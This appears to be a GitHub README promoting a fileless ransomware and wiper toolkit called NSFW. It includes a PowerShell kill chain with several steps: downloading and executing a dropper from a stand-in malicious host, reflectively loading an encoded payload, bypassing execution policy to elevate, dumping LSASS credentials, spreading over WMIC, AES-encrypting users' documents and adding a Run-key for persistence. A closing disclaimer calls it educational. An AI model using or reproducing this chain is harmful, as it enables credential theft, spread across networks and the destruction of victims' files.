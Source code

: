 
# NSFW: Fileless Hybrid Malware 

![Demo Screenshot](https://github.com/user-attachments/assets/f93a65bd-d000-41f0-a941-631f047417e4)

---

## 🧠 Summary: What Is NSFW?

NSFW (Net Sharing Fileless Wiperware) is a Windows focused malware dev:

- **Fileless malware**, which operates solely in memory to bypass traditional AV/EDR.
- **Polymorphic behavior**, making detection more difficult via mutation at runtime.
- **LOLBins (Living Off the Land Binaries)**, trusted system binaries leveraged for offensive operations without dropping executables on disk.
- **DiskCryptor-integrated crypto-viral payloads**, combining disk-level encryption (e.g., AES-XTS) with self-propagating ransomware capabilities, embedding cryptographic routines into reflective DLLs to execute volatile encryption logic, enforce ransom timers, or trigger destructive wipe logic if conditions are unmet—all while maintaining in-memory execution and no persistent footprint.



This toolkit helps simulate a realistic adversary kill chain using MITRE ATT&CK techniques, entirely fileless and stealthy in nature.

---

## 🔓 Fileless Ransomware Lab Example (LOLBins in Action)

> **Warning:** This is a synthetic simulation for red team research.  
> **Never run outside of an isolated test lab.**

```powershell
# Initial Access (T1190) - Load dropper via web
IEX(New-Object Net.WebClient).DownloadString("http://malicious.com/dropper.ps1")

# Execution (T1059.001) - Decode & load payload
$bytes = [System.Convert]::FromBase64String("[Base64Payload]") 
[System.Reflection.Assembly]::Load($bytes)

# Privilege Escalation (T1548)
Start-Process powershell -Args "-ExecutionPolicy Bypass -File C:\Temp\elevate.ps1" -Verb RunAs

# Credential Access (T1003.001)
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).Id C:\Temp\lsass.dmp full

# Lateral Movement (T1021.001)
wmic /node:targetPC process call create "powershell.exe -File \\share\payload.ps1"

# File Encryption (T1486)
$files = Get-ChildItem -Path "C:\Users\*\Documents" -Include *.docx,*.pdf -Recurse
foreach ($file in $files) {
  $data = Get-Content $file.FullName -Raw
  $aes = New-Object System.Security.Cryptography.AesManaged
  $aes.Key = [Text.Encoding]::UTF8.GetBytes("RANDOM-GEN-KEY-1234567890123456")
  $aes.IV = New-Object byte[] 16
  $enc = $aes.CreateEncryptor().TransformFinalBlock([Text.Encoding]::UTF8.GetBytes($data), 0, $data.Length)
  Set-Content -Path $file.FullName -Value ([Convert]::ToBase64String($enc))
}

# Persistence (T1547.001)
Set-ItemProperty "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "ransomware" -Value "powershell -File C:\Temp\persist.ps1"
````

---

## 🧭 Additional Resources

* [LOLOL Farm – LOLBin Playground](https://lolol.farm/)
* [LOLGEN – Generate LOLBin Chains](https://lolgen.hdks.org/)
* [MITRE ATT\&CK: S0697](https://attack.mitre.org/software/S0697/)
* [DLL Injection Primer](https://www.crow.rip/crows-nest/mal/dev/inject/dll-injection)
* [Print Spooler Exploit Chain](https://itm4n.github.io/printnightmare-not-over/)
* [Fileless Malware Wikipedia](https://en.wikipedia.org/wiki/Fileless_malware)

---

## ⚖️ Legal & Ethical Advisory

> 📢 **Important Notice:**
> This repository is for **educational and research purposes only**.
> You are responsible for complying with all local, national, and international laws when using any code or technique from this project.
>
> * Do **not** use NSFW for malicious activity.
> * Do **not** deploy in any production or unauthorized environment.
> * Use in **air-gapped**, **isolated**, and **sandboxed labs** only.
>
> **Violations of law or professional ethics are your liability.**



